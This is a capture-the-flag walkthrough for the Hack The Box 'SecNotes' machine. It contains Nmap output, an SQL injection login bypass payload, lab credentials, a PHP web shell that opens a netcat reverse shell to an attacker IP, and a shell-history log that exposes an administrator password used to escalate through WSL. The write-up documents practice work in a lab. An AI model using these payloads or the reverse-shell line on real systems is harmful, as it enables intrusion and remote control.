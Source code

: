 # SecNotes
> Silver Garcia

## Enumeration
Nmap
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-04 14:41 EDT
Nmap scan report for 10.10.10.97
Host is up (0.17s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
| http-methods: 
|_  Potentially risky methods: TRACE
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP (85%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3
Aggressive OS guesses: Microsoft Windows XP SP3 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h20m04s, deviation: 4h02m30s, median: 3s
| smb2-time: 
|   date: 2024-04-04T18:46:22
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2024-04-04T11:46:21-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

## Getting access
### Exploitation
Got credentials using sql injection on sign up page, then loging in with that account
payload:
```sql
' or 1=1#
```

Credentials>
```
\\secnotes.htb\new-site
tyler / 92g!mA8BGjOirkL%OG*&
```

### Reverse shell
1. Upload nc.exe binary using smb
2. Upload php with following content:
```php
<?php
system('nc.exe 10.10.14.6 4545 -e cmd.exe')
?>
```
3. Set listener and execute file 

## Privilege Escalation
Execute wsl.exe on following directory:
```
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf
```

Escape TTY
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

History command"
```
history
    1  cd /mnt/c/
    2  ls
    3  cd Users/
    4  cd /
    5  cd ~
    6  ls
    7  pwd
    8  mkdir filesystem
    9  mount //127.0.0.1/c$ filesystem/
   10  sudo apt install cifs-utils
   11  mount //127.0.0.1/c$ filesystem/
   12  mount //127.0.0.1/c$ filesystem/ -o user=administrator
   13  cat /proc/filesystems
   14  sudo modprobe cifs
   15  smbclient
   16  apt install smbclient
   17  smbclient
   18  smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
   19  > .bash_history 
   20  less .bash_history
   21  history
```

